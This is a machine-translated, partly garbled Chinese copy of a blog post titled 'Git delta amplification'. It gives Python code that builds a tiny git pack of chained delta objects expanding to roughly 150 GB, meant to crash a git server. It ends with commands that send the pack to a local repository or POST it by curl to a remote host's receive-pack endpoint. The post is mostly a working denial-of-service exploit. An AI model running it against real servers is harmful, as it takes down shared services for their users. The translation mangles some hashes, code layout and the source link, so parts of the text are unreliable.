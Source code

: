# Git delta 扩增

> 原文：<https://medium.com/hackernoon/git-delta-amplification-4c55b70e5cf0>

git 协议的一个有趣的方面是 delta 对象。它们允许从一个对象复制粘贴内容来创建一个新的对象。让我们使用增量创建一个巨大的对象，并尝试摧毁一个 git 服务器！

# 这个计划

我们可以复制粘贴的最大字节数是 16711680 字节(255 << 16), so we’ll use a blob of this size and paste it a few thousand times. Just for fun we’ll actually start with a blob of 255 bytes and work our way up.

# The git protocol

But first things first, we need to learn the git protocol. The command responsible for receiving objects is **receive-pack** ，它首先期望的是一个引用更新列表。例如:

```
<OLD_SHA1> <NEW_SHA1> refs/heads/master
```

我们懒得去找一个有效的 *OLD_SHA1* ，所以我们将通过创建一个新的引用来绕过它。我们可以通过使用特殊的*零 id* 哈希:**00000000000000000000000000000000000**来实现这一点。对于 *NEW_SHA1* 我们将只使用一个伪散列，比如说**111111111111111111111111111**，因为我们希望 git 服务器在真正尝试验证这个散列之前崩溃。

最后，这些命令以 pkt-line 格式编码，增加了一个 4 字节长的十六进制前缀。所以，让我们看看目前为止我们有什么(我将使用 Python 3 作为代码示例)。

```
zero_id = b'0' * 40fake_id = b'1' * 40create_ref = b'%s %s refs/heads/xxx\x00\n' % (zero_id, fake_id)pkt_line = b'%04x%s' % (len(create_ref) + 4, create_ref)sys.stdout.buffer.write(pkt_line)sys.stdout.buffer.write(b'0000')
```

# 包裹

接下来，我们需要开始打包我们要发送的对象。让我们从头部开始:12 个字节，由 ASCII 中的“PACK”组成，后面是 4 个字节的版本号(总是 2)和 4 个字节的跟随对象数(所有数字都是按网络字节顺序排列的)。根据我们的计划，我们将从一个大小为 255 的 blob 对象开始，用它来生成一个大小为 65280 的 blob，用它来生成一个大小为 16711680 的 blob，最后是我们的大 blob，所以总共有 4 个对象。我们不会创建任何提交对象。

```
pack = bytearray()pack += b'PACK' + struct.pack('!II', 2, 4)
```

标题准备好了，让我们添加第一个 blob。包中的每个对象都需要一个对象头来编码它的类型和大小。我们将使用的类型号是:blobs 的 **3** 和 deltas 的 **7** 。

固定大小的字段太明显了，所以 git 使用自己的可变长度编码。让我们编写一个函数来实现这一点:

```
def object_header(obj_type, obj_size): header = bytearray() b = (obj_type << 4) | (obj_size & 15) obj_size >>= 4 while obj_size > 0: header.append(b | 0x80) b = obj_size & 0x7f obj_size >>= 7 header.append(b) return header
```

我们终于准备好添加第一个斑点了！

```
size0 = 255blob0 = os.urandom(size0)pack += object_header(3, size0)pack += zlib.compress(blob0)
```

# 三角洲

我们现在可以创建我们的第一个增量。对于大小为 65280 的新 blob，我们将复制粘贴 blob0 256 次。增量格式非常简单:

```
SRC_SIZE DST_SIZE [COMMANDS]
```

当然，大小也使用可变长度编码，所以让我们创建几个辅助函数:

```
def make_delta(src_size, dst_size, commands): return encode_size(src_size) + encode_size(dst_size) + commandsdef encode_size(n): b = bytearray() while n > 0: mod = n & 0x7f n >>= 7 if n > 0: b.append(0x80 | mod) else: b.append(mod) return b
```

我们还需要指向带有 20 字节散列头的源对象，所以让我们添加一个函数来计算 blob 的 id:

```
def blob_id(blob): m = hashlib.sha1() m.update(b'blob %d\0' % len(blob)) m.update(blob) return m.digest()
```

我们现在有了创建第一个 delta 对象的所有构件:

```
size1 = size0 * 256cmd1 = bytes([0x80 | 0x10, 0xff]) * 256delta1 = make_delta(size0, size1, cmd1)pack += object_header(7, len(delta1))pack += blob_id(blob0)     # sourcepack += zlib.compress(delta1)
```

让我们来谈谈我们创建的命令。第一个字节定义了我们正在做什么样的操作。 **0x80** 表示我们要从源对象中复制。 **0x10** 表示后面的字节会说要复制多少字节。所以这 2 个字节实质上就是:复制 255 个字节。我们这样做了 256 次。

好，让我们创建第二个增量:

```
size2 = size1 * 256cmd2 = bytes([0x80 | 0x20, 0xff]) * 256delta2 = make_delta(size1, size2, cmd2)pack += object_header(7, len(delta2))pack += blob_id(blob0 * 256)    # source blobpack += zlib.compress(delta2)
```

注意这里我们是如何使用命令 **0x20** 的，这意味着接下来的字节将被乘以 256，并被用作拷贝大小。所以我们的新命令翻译成:复制 65280 字节，256 次。还要注意，对于源 id，我们使用将由 **delta1** 生成的 blob。

delta2 是我们最大的构建块，让我们用它来生成一个大约 150 GB 的 blob。

```
size3 = size2 * 10000cmd3 = bytes([0x80 | 0x40, 0xff]) * 10000delta3 = make_delta(size2, size3, cmd3)pack += object_header(7, len(delta3))pack += blob_id(blob0 * 256 * 256)    # source blobpack += zlib.compress(delta3)
```

这里我们使用命令 **0x40** ，它将下面的字节乘以 65536，允许我们创建命令:复制 16711680 字节，10000 次。

就这样，总的包大小是 464 字节，产生大约 150 GB。您可以运行:

```
./amplify.py | git receive-pack /path/to/repo.git
```

或者尝试使用远程回购:

```
./amplify.py | curl -v -X POST — data-binary @- -H ‘Content-Type: application/x-git-receive-pack-request’ [https://host/path/repo.git/git-receive-pack](https://host/path/repo.git/git-receive-pack)
```

下面是最终来源:[https://gist . github . com/verigak/BDA 113 DC 5850d 2c B3 0 c 9 B3 C5 f 83 c 8141](https://gist.github.com/verigak/bda113dc5850d2cb30c9b3c5f83c8141)